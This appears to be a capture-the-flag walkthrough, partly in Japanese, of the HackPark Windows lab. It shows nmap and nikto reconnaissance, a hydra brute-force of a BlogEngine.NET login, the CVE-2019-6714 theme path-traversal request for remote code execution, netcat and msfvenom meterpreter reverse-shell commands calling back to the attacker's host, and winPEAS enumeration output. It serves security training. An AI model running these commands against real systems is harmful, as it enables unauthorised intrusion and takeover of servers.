

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 80/tcp   open  http, 3389/tcp open  ssl/ms-wbt-server? |
| Primary Entry Vector      | brute-force, lfi, rce |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
✅[21:28][CPU:0][MEM:37][IP:10.11.87.75][/home/n0z0/work/thm]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 21:28 JST
Nmap scan report for 10.10.245.77
Host is up (0.24s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2024-10-19T12:35:30+00:00
|_ssl-date: 2024-10-19T12:35:34+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2024-10-18T12:16:52
|_Not valid after:  2025-04-19T12:16:52
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -3s, deviation: 0s, median: -3s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   242.81 ms 10.11.0.1
2   242.93 ms 10.10.245.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 422.24 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

nmap の結果

80とRDPが開いてた

```bash
✅[21:28][CPU:0][MEM:37][IP:10.11.87.75][/home/n0z0/work/thm]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-19 21:28 JST
Nmap scan report for 10.10.245.77
Host is up (0.24s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries
| /Account/*.* /search /search.aspx /error404.aspx
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: HACKPARK
|   NetBIOS_Domain_Name: HACKPARK
|   NetBIOS_Computer_Name: HACKPARK
|   DNS_Domain_Name: hackpark
|   DNS_Computer_Name: hackpark
|   Product_Version: 6.3.9600
|_  System_Time: 2024-10-19T12:35:30+00:00
|_ssl-date: 2024-10-19T12:35:34+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2024-10-18T12:16:52
|_Not valid after:  2025-04-19T12:16:52
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -3s, deviation: 0s, median: -3s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   242.81 ms 10.11.0.1
2   242.93 ms 10.10.245.77

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 422.24 seconds
```

脆弱性検査

特に気になる結果はなし

```bash
❌[1:53][CPU:1][MEM:51][IP:10.11.87.75][...me/n0z0/work/thm/hackpark]
🐉 > nikto -h $ip -Tuning 123456789
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.75.215
+ Target Hostname:    10.10.75.215
+ Target Port:        80
+ Start Time:         2024-10-23 01:54:05 (GMT9)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/8.5
+ /: Retrieved x-powered-by header: ASP.NET.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: Uncommon header 'content-style-type' found, with contents: text/css.
+ /: Uncommon header 'content-script-type' found, with contents: text/javascript.
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /robots.txt: Entry '/search/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/archive/' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/search.aspx' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: Entry '/archive.aspx' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file
+ /robots.txt: contains 6 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE .
+ /admin/: Uncommon header 'x-aspnetwebpages-version' found, with contents: 3.0.
+ /archive/: This might be interesting.
+ /archives/: This might be interesting.
+ 5586 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2024-10-23 02:18:04 (GMT9) (1439 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Using Hydra to brute-force a login

| hydra -P <wordlist> -v <ip> <protocol> | Brute force against a protocol of your choice |
| --- | --- |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol> | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip> | Attack a Windows Remote Desktop with a password list. |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force. |

hydraのコマンド

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $ip http-post-form "/Account/login.aspx:__VIEWSTATE=w%2Bs3oi719rzgBAf8KPmekEn3mPuRdbKDsk1tweEU0JQ77BnTVcsHH1wIy%2FpBQh12FWaXSkeviU1n2Bx6iF0RWJnTz8dAryvuX22EAMCg1aSgSZ18m%2Bb8SBA%2Foh%2BjHjeqh92AMdZknPql%2FH2Df73gGNmUxW6COLCNEVuD%2Ba%2Bntr5%2FR4z4&__EVENTVALIDATION=lpdf2SBqn5dBJkwA1DSrXg%2BNgFR8Tab%2FjgiqyKKQpdtXQ2aWnN3uMhTZGeE7VXy6hfbk1uQJu%2BonPmqfEJCuB2tP4xa%2BzsDyjI20QBxw7nV8zVrEq2LmWnHpkNavqm1DUniD9NIuNolVUdFsZdnn7xg%2Bhod8KYonjTuwROX1DwPgRf9Y&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```

**フォームパラメータ**:

- このフォームには、`__VIEWSTATE` や `__EVENTVALIDATION` というASP.NET独自のパラメータが含まれています。これらのフィールドは、フォーム送信時の状態管理やセキュリティトークンとして使われるため、ログイン試行の際に正しい値を送信する必要があります。
- `ctl00$MainContent$LoginUser$UserName` と `ctl00$MainContent$LoginUser$Password` が、それぞれユーザー名（`^USER^`）とパスワード（`^PASS^`）のフィールドです。これらのフィールドは、ASP.NET Webフォームで一般的な命名規則に従っています。
- `ctl00$MainContent$LoginUser$LoginButton` は、ログインボタンのフィールドです。このパラメータも一緒に送信されます。

[80][http-post-form] host: 10.10.245.77   login: admin   password: 1qaz2wsx

## Compromise the machine

左ペインのAboutをクリックすると使ってるCMSのバージョンとパッケージがわかる


*Caption: Screenshot captured during hackpark attack workflow (step 1).*

脆弱性を検索するとRCE使えそうなものが見つかる

```bash
✅[1:56][CPU:1][MEM:52][IP:10.11.87.75][/usr/share/peass/winpeas]
🐉 > searchsploit BlogEngine.NET 3.3.6
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                             | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                             | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                                        | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                                        | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                                     | aspx/webapps/47014.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

exploitコードをダウンロードする

```bash
✅[1:56][CPU:1][MEM:52][IP:10.11.87.75][/usr/share/peass/winpeas]
🐉 > searchsploit -m 46353
```

- 詳細
    
    このエクスプロイトは、 **BlogEngine.NET バージョン3.3.6** およびそれ以前のバージョンに存在する **ディレクトリトラバーサル** と **リモートコード実行（RCE）** の脆弱性を利用するものです。以下に、コードと脆弱性のメカニズムについて詳しく解説します。
    
    ### 脆弱性の概要
    
    **CVE-2019-6714** は、 **BlogEngine.NET** の特定の機能に存在する **ディレクトリトラバーサル** の脆弱性に関連しています。この脆弱性により、攻撃者は任意のディレクトリにアクセスし、特定の条件下でサーバー上で任意のコードを実行できる可能性があります。
    
    具体的には、`theme` パラメータに対する入力検証が適切に行われていないため、攻撃者はディレクトリトラバーサル（`../` などのパス）を利用して、システム上の別の場所にあるファイルを強制的に読み込むことができます。このパラメータを悪用すると、攻撃者が **リモートコード実行（RCE）** を行うためのペイロードを実行できます。
    
    ### 脆弱なコード
    
    脆弱なコードは **`/Custom/Controls/PostList.ascx.cs`** ファイルにあります。このコードでは、`theme` パラメータが不適切に処理され、任意のディレクトリへのパスを通してファイルを読み込むことができるため、攻撃者は **ディレクトリトラバーサル** を利用してサーバー上の任意のファイルを取得したり、特定の条件下でコードを実行したりできます。
    
    ### 攻撃の流れ
    
    1. **準備**:
        - 攻撃者は、自分のホスト上にリバースTCP接続を待ち受けるリスナーを準備します。たとえば、攻撃者は自分のマシンで `nc -lvp 4444` などのコマンドを実行して待機します。
    2. **悪意あるファイルのアップロード**:
        - BlogEngine.NETには、ポスト編集時にファイルをアップロードできる機能があります。管理者ユーザーとしてログインした状態で、攻撃者はブログの投稿を編集し、 **ファイルマネージャ** 機能を利用して、悪意ある `.ascx` ファイル（リバースシェルコードなどを含む）をサーバーにアップロードします。このファイルは `PostView.ascx` という名前でアップロードする必要があります。
        - アップロードされたファイルは、サーバーの **`/App_Data/files`** ディレクトリに保存されます。このディレクトリはウェブアプリケーションのルートから相対パスでアクセス可能です。
    3. **脆弱性のトリガー**:
        - アップロードが完了した後、攻撃者はウェブアプリケーションのベースURLに対して、以下のように `theme` パラメータを指定してアクセスします。
            
            ```bash
            bash
            コードをコピーする
            http://10.10.10.10/?theme=../../App_Data/files
            
            ```
            
        - これにより、サーバーはディレクトリトラバーサルを行って `App_Data/files/PostView.ascx` ファイルを読み込み、実行します。これが攻撃者がアップロードした悪意あるコード（リバースシェルペイロードなど）であれば、サーバー上でコードが実行され、攻撃者はリモートでシステムにアクセスできるようになります。
    
    ### 実際の攻撃シナリオ
    
    1. 攻撃者は、管理者権限を取得しているか、ファイルアップロードが可能な攻撃経路を発見します。
    2. 悪意のある `.ascx` ファイル（例えばリバースシェルコードが埋め込まれたもの）を **`PostView.ascx`** という名前でアップロードします。
    3. アップロード後、`theme` パラメータを利用して、サーバーにその `.ascx` ファイルを読み込ませるようなリクエストを送信します。
    4. サーバーがファイルを実行し、攻撃者はシステムへのリモートアクセスを確立します。
    
    ### 対策
    
    - **入力の検証強化**: `theme` パラメータに対する入力検証を強化し、ディレクトリトラバーサル（`../`）のような不正なパスを許可しないようにします。
    - **アップロードされたファイルの適切な処理**: アップロードされたファイルが実行されないように、ファイルの保存場所とアクセス権限を厳しく制限します。
    - **最新版へのアップグレード**: BlogEngine.NETを3.3.6以降のバージョンにアップグレードして、この脆弱性に対応したセキュリティパッチを適用します。
    
    ### Conclusion
    
    このエクスプロイトは、`theme` パラメータの不適切な処理によるディレクトリトラバーサル攻撃を利用して、BlogEngine.NET 3.3.6以前のバージョンにおいてリモートコード実行を引き起こすものです。攻撃者は管理者権限で悪意あるファイルをアップロードし、`theme` パラメータを通じてそのファイルを実行することで、サーバー上で任意のコードを実行することが可能となります。
    
https://blogengine.io/faq/

ファイルアップロード手順を確認する

ファイル名をPostView.ascxに変更してアップロードする


*Caption: Screenshot captured during hackpark attack workflow (step 2).*

ncで待ち受けておく

```bash
❌[20:49][CPU:1][MEM:50][IP:10.11.87.75][...me/n0z0/work/thm/hackpark]
🐉 > nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.11.87.75] from (UNKNOWN) [10.10.200.118] 49281
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

下記パスにアクセスするとリバースシェルが刺さる

```bash
✅[20:49][CPU:1][MEM:50][IP:10.11.87.75][/home/n0z0]
🐉 > curl http://10.10.200.118/?theme=../../App_Data/files
```

リバースシェル用のシェルを作成しておく

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.87.75 LPORT=4443 -f exe -o shell.exe
```

待ち受け用のセッションを用意しておく

```
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST tun0

msf6 exploit(multi/handler) > run
```

攻撃側端末でリバースシェル起動する

```
.\shell.exe
```

バージョン確認

```bash
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

## Windows Privilege Escalation

mseconsoleからwinpeaseをアップロードする

※今回はx86windowsだから下記を利用する

```bash
meterpreter > upload /usr/share/peass/winpeas/winPEASx86_ofs.exe
[*] Uploading  : /usr/share/peass/winpeas/winPEASx86_ofs.exe -> winPEASx86_ofs.exe

[*] Uploaded 2.16 MiB of 2.16 MiB (100.0%): /usr/share/peass/winpeas/winPEASx86_ofs.exe -> winPEASx86_ofs.exe
[*] Completed  : /usr/share/peass/winpeas/winPEASx86_ofs.exe -> winPEASx86_ofs.exe
```

シェルモードに変更してwinpeasを実行する

```bash
**c:\Windows\Temp>.\winPEASx86_ofs.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD

               ((((((((((((((((((((((((((((((((
        (((((((((((((((((((((((((((((((((((((((((((
      ((((((((((((((**********/##########(((((((((((((
    ((((((((((((********************/#######(((((((((((
    ((((((((******************/@@@@@/****######((((((((((
    ((((((********************@@@@@@@@@@/***,####((((((((((
    (((((********************/@@@@@%@@@@/********##(((((((((
    (((############*********/%@@@@@@@@@/************((((((((
    ((##################(/******/@@@@@/***************((((((
    ((#########################(/**********************(((((
    ((##############################(/*****************(((((
    ((###################################(/************(((((
    ((#######################################(*********(((((
    ((#######(,.***.,(###################(..***.*******(((((
    ((#######*(#####((##################((######/(*****(((((
    ((###################(/***********(##############()(((((
    (((#####################/*******(################)((((((
    ((((############################################)((((((
    (((((##########################################)(((((((
    ((((((########################################)(((((((
    ((((((((####################################)((((((((
    (((((((((#################################)(((((((((
        ((((((((((##########################)(((((((((
              ((((((((((((((((((((((((((((((((((((((
                 ((((((((((((((((((((((((((((((
ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own devices and/or with the device owner's permission.
  WinPEAS-ng by @hacktricks_live

       /---------------------------------------------------------------------------------\
       |                             Do you like PEASS?                                  |
       |---------------------------------------------------------------------------------|
       |         Get the latest version    :     https://github.com/sponsors/carlospolop |
       |         Follow on Twitter         :     @hacktricks_live                        |
       |         Respect on HTB            :     SirBroccoli                             |
       |---------------------------------------------------------------------------------|
       |                                 Thank you!                                      |
       \---------------------------------------------------------------------------------/

  [+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links
 You can find a Windows local PE Checklist here: https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
   Creating Dynamic lists, this could take a while, please wait...
   - Loading sensitive_files yaml definitions file...
   - Loading regexes yaml definitions file...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
  [X] Exception: Object reference not set to an instance of an object.
  [X] Exception: The server could not be contacted.
   - Creating active users list (local only)...
   - Creating disabled users list...
   - Admin users list...
   - Creating AppLocker bypass list...
   - Creating files/directories list for search...
ÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ͹ System Information ÌÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍÍ
ÉÍÍÍÍÍÍÍÍÍ͹ Basic System Information
È Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    OS Name: Microsoft Windows Server 2012 R2 Standard
    OS Version: 6.3.9600 N/A Build 9600
    System Type: x64-based PC
    Hostname: hackpark
    ProductName: Windows Server 2012 R2 Standard
    EditionID: ServerStandard
    ReleaseId:
    BuildBranch:
    CurrentMajorVersionNumber:
    CurrentVersion: 6.3
    Architecture: x86
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: False
    Current Time: 10/21/2024 5:32:02 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB2919355 (3/21/2014), KB2919442 (3/21/2014), KB2937220 (3/21/2014), KB2938772 (3/21/2014), KB2939471 (3/21/2014), KB2949621 (3/21/2014), KB3035131 (8/5/2019), KB3060716 (8/5/2019),
  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
  [X] Exception: The given key was not present in the dictionary.
ÉÍÍÍÍÍÍÍÍÍ͹ Showing All Microsoft Updates
  [X] Exception: Exception has been thrown by the target of an invocation.
ÉÍÍÍÍÍÍÍÍÍ͹ System Last Shutdown Date/time (from Registry)

    Last Shutdown Date/time        :    10/2/2020 3:11:01 PM
ÉÍÍÍÍÍÍÍÍÍ͹ User Environment Variables
È Check for some passwords or keys in the env variables
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;
    APP_POOL_ID: Blog
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    USERDOMAIN: WORKGROUP
    PROCESSOR_ARCHITECTURE: x86
    ProgramW6432: C:\Program Files
    PUBLIC: C:\Users\Public
    APPDATA: C:\Windows\system32\config\systemprofile\AppData\Roaming
    windir: C:\Windows
    LOCALAPPDATA: C:\Windows\system32\config\systemprofile\AppData\Local
    CommonProgramW6432: C:\Program Files\Common Files
    APP_POOL_CONFIG: C:\inetpub\temp\apppools\Blog\Blog.config
    TMP: C:\Windows\TEMP
    USERPROFILE: C:\Windows\system32\config\systemprofile
    ProgramFiles: C:\Program Files (x86)
    PROCESSOR_LEVEL: 6
    FP_NO_HOST_CHECK: NO
    COMPUTERNAME: HACKPARK
    PROCESSOR_ARCHITEW6432: AMD64
    USERNAME: HACKPARK$
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_IDENTIFIER: Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
    PROMPT: $P$G
    SystemRoot: C:\Windows
    ComSpec: C:\Windows\system32\cmd.exe
    TEMP: C:\Windows\TEMP
    ProgramFiles(x86): C:\Program Files (x86)
    CommonProgramFiles: C:\Program Files (x86)\Common Files
    PROCESSOR_REVISION: 4f01
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ALLUSERSPROFILE: C:\ProgramData
    SystemDrive: C:
    PSModulePath: C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
    OS: Windows_NT
    ProgramData: C:\ProgramData
ÉÍÍÍÍÍÍÍÍÍ͹ System Environment Variables
È Check for some passwords or keys in the env variables
    FP_NO_HOST_CHECK: NO
    USERNAME: SYSTEM
    Path: C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
    ComSpec: C:\Windows\system32\cmd.exe
    TMP: C:\Windows\TEMP
    OS: Windows_NT
    windir: C:\Windows
    PROCESSOR_ARCHITECTURE: AMD64
    TEMP: C:\Windows\TEMP
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    PSModulePath: C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_LEVEL: 6
    PROCESSOR_IDENTIFIER: Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
    PROCESSOR_REVISION: 4f01
ÉÍÍÍÍÍÍÍÍÍ͹ Audit Settings
È Check what is being logged
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Audit Policy Settings - Classic & Advanced
ÉÍÍÍÍÍÍÍÍÍ͹ WEF Settings
È Windows Event Forwarding, is interesting to know were are sent the logs
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ LAPS Settings
È If installed, local administrator password is changed frequently and is restricted by ACL
    LAPS Enabled: LAPS not installed
ÉÍÍÍÍÍÍÍÍÍ͹ Wdigest
È If enabled, plain-text crds could be stored in LSASS https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#wdigest
    Wdigest is not enabled
ÉÍÍÍÍÍÍÍÍÍ͹ LSA Protection
È If enabled, a driver is needed to read LSASS memory (If Secure Boot or UEFI, RunAsPPL cannot be disabled by deleting the registry key) https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#lsa-protection
    LSA Protection is not enabled
ÉÍÍÍÍÍÍÍÍÍ͹ Credentials Guard
È If enabled, a driver is needed to read LSASS memory https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#credential-guard
    CredentialGuard is not enabled
  [X] Exception:   [X] 'Win32_DeviceGuard' WMI class unavailable
ÉÍÍÍÍÍÍÍÍÍ͹ Cached Creds
È If > 0, credentials will be cached in the registry and accessible by SYSTEM user https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-protections#cached-credentials
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating saved credentials in Registry (CurrentPass)
ÉÍÍÍÍÍÍÍÍÍ͹ AV Information
  [X] Exception: Invalid namespace
    No AV was detected!!
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Windows Defender configuration
  Local Settings
  Group Policy Settings
ÉÍÍÍÍÍÍÍÍÍ͹ UAC Status
È If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy:
    FilterAdministratorToken: 0
      [*] LocalAccountTokenFilterPolicy set to 0 and FilterAdministratorToken != 1.
      [-] Only the RID-500 local admin account can be used for lateral movement.
ÉÍÍÍÍÍÍÍÍÍ͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 4.0
    PowerShell Core Version:
    Transcription Settings:
    Module Logging Settings:
    Scriptblock Logging Settings:
    PS history file:
    PS history size:
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating PowerShell Session Settings using the registry
      You must be an administrator to run this check
ÉÍÍÍÍÍÍÍÍÍ͹ PS default transcripts history
È Read the PS history inside these files (if any)
ÉÍÍÍÍÍÍÍÍÍ͹ HKCU Internet Settings
    User Agent: Mozilla/4.0 (compatible; MSIE 8.0; Win32)
    IE5_UA_Backup_Flag: 5.0
    ZonesSecurityUpgrade: System.Byte[]
ÉÍÍÍÍÍÍÍÍÍ͹ HKLM Internet Settings
    CodeBaseSearchPath: CODEBASE
    WarnOnIntranet: 1
    EnablePunycode: 1
    MinorVersion: 0
    ActiveXCache: C:\Windows\Downloaded Program Files
ÉÍÍÍÍÍÍÍÍÍ͹ Drives Information
È Remember that you should search more info inside the other drives
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 34 GB)(Permissions: Users [AppendData/CreateDirectories])
ÉÍÍÍÍÍÍÍÍÍ͹ Checking WSUS
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus
    Not Found
ÉÍÍÍÍÍÍÍÍÍ͹ Checking KrbRelayUp
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#krbrelayup
  The system isn't inside a domain, so it isn't vulnerable
ÉÍÍÍÍÍÍÍÍÍ͹ Checking If Inside Container
È If the binary cexecsvc.exe or associated service exists, you are inside Docker
You are NOT inside a container
ÉÍÍÍÍÍÍÍÍÍ͹ Checking AlwaysInstallElevated
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated isn't available
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerate LSA settings - auth packages included

    Bounds                               :       00-30-00-00-00-20-00-00
    auditbasedirectories                 :       0
    fullprivilegeauditing                :       00
    crashonauditfail                     :       0
    auditbaseobjects                     :       0
    Security Packages                    :       ""
    LimitBlankPasswordUse                :       1
    NoLmHash                             :       1
    Notification Packages                :       rassfm,scecli
    Authentication Packages              :       msv1_0
    LsaPid                               :       684
    SecureBoot                           :       1
    ProductType                          :       7
    disabledomaincreds                   :       0
    everyoneincludesanonymous            :       0
    forceguest                           :       0
    restrictanonymous                    :       0
    restrictanonymoussam                 :       1
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating NTLM Settings
  LanmanCompatibilityLevel    :  (Send NTLMv2 response only - Win7+ default)

  NTLM Signing Settings
      ClientRequireSigning    : False
      ClientNegotiateSigning  : True
      ServerRequireSigning    : False
      ServerNegotiateSigning  : False
      LdapSigning             : Negotiate signing (Negotiate signing)

  Session Security
      NTLMMinClientSec        : 536870912 (Require 128-bit encryption)
      NTLMMinServerSec        : 536870912 (Require 128-bit encryption)

  NTLM Auditing and Restrictions
      InboundRestrictions     :  (Not defined)
      OutboundRestrictions    :  (Not defined)
      InboundAuditing         :  (Not defined)
      OutboundExceptions      :
ÉÍÍÍÍÍÍÍÍÍ͹ Display Local Group Policy settings - local users/machine
ÉÍÍÍÍÍÍÍÍÍ͹ Checking AppLocker effective policy
   AppLockerPolicy version: 1
   listing rules:
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Printers (WMI)
      Name:                    Microsoft XPS Document Writer
      Status:                  Unknown
      Sddl:                    O:SYD:(A;OIIO;GA;;;CO)(A;OIIO;GA;;;AC)(A;;SWRC;;;WD)(A;CIIO;GX;;;WD)(A;;SWRC;;;AC)(A;CIIO;GX;;;AC)(A;;LCSWDTSDRCWDWO;;;BA)(A;OICIIO;GA;;;BA)
      Is default:              False
      Is network printer:      False
   =================================================================================================
